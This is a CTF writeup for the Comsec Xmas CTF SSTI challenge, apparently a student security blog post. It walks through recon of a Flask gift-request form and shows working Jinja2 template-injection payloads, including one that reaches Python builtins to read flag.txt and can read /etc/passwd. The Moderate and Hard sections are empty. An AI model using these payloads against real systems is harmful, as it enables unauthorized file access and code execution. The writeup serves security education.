


title: Xmas CTF Day 2 Writeup
date: 2021-01-17 12:00:14
tags: Hacking, CUEH, CTF, SSTI, Comsec, writeup
Summary: >
	Writeup of the SSTI (day 2) based challenges for the Comsec Xmas CTF.
	
	
# Introuduction

In this post we will cover the SSTI based challenges for Day 3 of the CTF.

I am going to try to keep the discussion down, and focus on the
challenges themselves, if you want to get up to speed on the
vulnerability itself there is [a post giving some background on
SSTI]({filename}/Xmas_Day2_SSTI.md)


## Common Machine Details

All of the machines had pretty much the same webpage, (I blame the dev for being lazy)
Our Kings have some kind of web form for requesting presents



As its a web based challenge, we will ignore things like Nmap (there
shouldn't be any relevant open ports) and focus our enumeration on the usual web stuff.

# Easy

## Reconnisance 

Our first stage is recon,  lets see what we can find out about the page itself.

### The HTML
While some people like to use tools like Burp for this, I still like to do my initial stuff by hand, so fire up the view source window.

Its pretty bare, no links to anything interesting on the site, and the only content of interest is this form

```
<form method="post">
  <div class="form-group">
    <label for="nameEntry">Your Name</label>
    <input class="form-control" id="nameEntry" name="name" placeholder="Name">
  </div>
  <div class="form-group">
    <label for="whichKing">King to bring the Gift</label>
    <select class="form-control" id="whichKing" name="king">
      <option value="Balthazar">Balthazar</option>
      <option value="Melichor">Melichor</option>
      <option value="Gaspar">Gaspar</option>
    </select>
  </div>
  <div class="form-group">
    <!-- Whats the Equivelent of a Christmas Easter Egg, A Bolo Rei? -->
    <label for="presentList">Gift Requests</label>
    <textarea class="form-control" id="presentList" rows="3" name="gift"></textarea>
  </div> 
  <button type="submit" class="btn btn-primary">Submit</button>
</form>
```

So this tells us some idea of the data that gets sent when we submit the form.  
There is also something about an Easter egg,  which we can come back to later.

### Gobuster / Robots.txt

Before we start poking the site we also look to see if there are any other pages that we can get to.
First (as we live in hope, not pure CTF land) we take a look at *ROBOTS.txt* which lets us know there is a *debug* page the devs don't want Google finding

```
User-Agent: *
Disallow: /debug
```

Running gobuster with a common word list also identifies this debug page

### The Debug Page

Shows us the source code for the flask application itself.  How nice of the dev's...

We can see from the way that the template is built, its likely to be
vulnerable to SSTI, rather than have any substitution within the
template itself, the dev uses the string ```replace()``` function.
This should let us inject template objects of our own.

```
errorPage = """


<h2>Error</h2>
<div class="alert alert-danger" role="alert">
ERROR:  WHO is not a King
</div>

"""
```

This pages gets rendered when there is an error in the King that gets
selected.  If the user somehow manages to submit a King that the app
doesn't know about, the error message gets shown.

### Recon Summary

It looks like we have all of the pieces of our vulnerblity puzzle in place.

We make a **POST** request to the index */* to submit our form, 
and gives us an idea of the parameters that are sent.

  - The users name
  - A King (from a select)
  - A Request for gifts.

If the King is not one of the ones the system knows about, it renders
a template with a possible SSTI in it.

## Initial Exploitation

Next we want to test if our expected issue is correct.  To do this we
want to send something like ```{{ 1 + 1 }}``` as a payload.  If the
site is vulnerable to SSTI, it should render out as 2.

However we have a couple of speed bumps on the way to do this.

  - The King is limited to the values in the forms ```<select>``` that
    limits our possible payloads.
  - Form submission is a POST request, so its not trivial to change
    the form by mangling the query string.

There are a couple of solutions to this:

### Using NSA level hacking tools

For the first we are going to fire up the *NSA level hacking tool*
that is the inspect element window that comes in all modern web
browsers.  Its a really useful tool for monkeying around with the
source code of a page on the fly, so should let us change the value
sent.  We simply change one of the Kings in the select to be our
payload ```value = {{ 1+1 }}```



Which then renders the error page with our Injected payload of 3


### Using Python

While buggering about with the inspector, or burp works, we could also
use Python.  The requests library lets us send and receive data from
websites, and is my preferred approach, because it saves me wearing my
mouse out.

We write a simple script

```
import requests
URL = "http://127.0.0.1:5000"
data = {"king": "{{ 4+4 }}"}
r = requests.post(URL, data)
print (r.text)
```

And we get Code Execution in the Response.

```
<h2>Error</h2>
<div class="alert alert-danger" role="alert">
ERROR:  8 is not a King
</div>
```

## Getting the Flag

Now we know the site is vulnerable to SSTI, its time to get a flag.

We could try to go down the shell route, or we can just try to read the flag file from the system.
(I didn't try the shell, to be honest I find the whole python reverse shell thing a torturous process).

So our first question is how do we get RCE within Flask /
Jinja. (Note: I have a longer post planned for this, so we will just
cover the basics here)

It turns out our issue stems from some of the global variables that
are available in all templates. As (almost) everything in Python is an
Object, it turns our we can make use of these to find the
functionality we need.

For example, we can access any global variables avaialabe to the the application object with the following payload

```
{{ request['application']['__globals__'] }}"
```

Now as the application is a Python object these globals also include
things like any classes it knows about and this includes not only
Flask related stuff, but [Python's builtin functions](https://docs.python.org/3/library/functions.html).

Now there is a load of useful stuff here, and we can start chaining together statements to get the 
result we want.

For example, one of the builtin function is ```open()``` which will allow us to read the contents of a file.
Lets make use of that to try and get the flag.

```
{{ request['application']['__globals__']['__builtins__'].open('flag.txt').read() }}
```

Which gives us the output (and the flag)

```
<div class="alert alert-danger" role="alert">\nERROR:  CUEH{S1mpl3_SSTI_With0ut_Filters}\n is not a King\n</div>
```

Now obviously, this relies the flag being in a place we can guess
*flag.txt* and readable by the user running the flask application.
For instance we can use the same approach to read the */etc/passwd*
file, but not */etc/shadow*

In the hard example we will see how we can solve some of these problems.

## Easter Egg

In our recon we also identified something that could be an easter egg.

There is also the "BoloRei" function.  (Its a xmas bread,  like a easter-egg i suppose)

If we ask the kings for a flag we get the following message

```
    flag
    Polite people might get what they want
```

Lets ask nicely.

```
    A flag please
    As you asked nicely. CUEH{TEMPFLAG}
```


# Moderate

# Hard

